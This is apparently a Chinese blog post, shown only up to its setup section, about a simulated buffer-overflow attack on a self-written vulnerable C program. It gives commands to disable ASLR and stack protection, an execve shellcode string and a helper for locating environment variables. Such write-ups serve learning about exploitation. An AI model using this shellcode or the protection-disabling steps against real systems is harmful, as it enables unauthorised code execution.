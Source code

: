 ```yaml
---
title: 记录一次模拟溢出攻击
data: 2017-11-09
tag: pwn
layout: post
---
```


> this is a test, not true

## 0x00准备

- 本次实验的机器为`Ubuntu 16.04.2 LTS`64位系统

- 需要关闭ASLR，`echo 0 > /proc/sys/kernel/randomize_va_space`，如果提示权限不够，可能需要用`su`提升权限

- 用`gcc`编译需要关闭`stack-protector`，允许栈的执行权限`execstack`

- 需要`gdb` `peda`

- 需要一串`shellcode`，本次使用

  `\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05`

- 需要`python2`

- 一段计算地址的c语言程序`getenvaddr`，源码在github可以找到，也可以选择下面的编译

  ```c
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  int main(int argc, char *argv[]) {
  	char *ptr;
  	if (argc < 3) {
  		printf("Usage: %s <environment var> <target program name>\n", argv[0]);
  		exit(0);
  	} else {
  		ptr = getenv(argv[1]); /* Get environment variable location */
  		ptr += (strlen(argv[0]) - strlen(argv[2])) * 2; /* Adjust for program name */
  		printf("%s will be at %p\n", argv[1], ptr);
  	}
    	return 0;
  }
  ```


- 攻击目标`test.c`，自己写的很简单

  ```c
  #include<stdio.h>
  #include<unistd.h>
  int main(){
  	char buf[10];
  	read(0,buf,40);
  	puts("23333\n");
  	return 0;
  }
  ```
